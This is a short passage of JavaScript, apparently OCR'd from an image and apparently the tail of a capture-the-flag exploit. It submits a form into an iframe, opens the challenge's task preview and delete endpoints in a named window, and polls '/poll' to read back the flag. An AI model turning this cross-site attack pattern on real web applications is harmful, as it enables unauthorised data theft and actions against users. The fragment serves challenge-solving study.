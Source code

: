 ```
    });

    // Submit form
    form.submit();

    // Wait for iframe to load
    await loadPromise;
    await sleep(1010); // Small delay for safety

    // Perform remaining actions
    open(`${CHALL_URL}/tasks/preview/0/0`, 'prev');
    await sleep(1010);
    flag = await fetch('/poll').then(e=>e.text());
    console.log(flag);
    open(`${CHALL_URL}/tasks/delete/0/0`, 'prev');
    await sleep(1010);
   }
}
</script>
```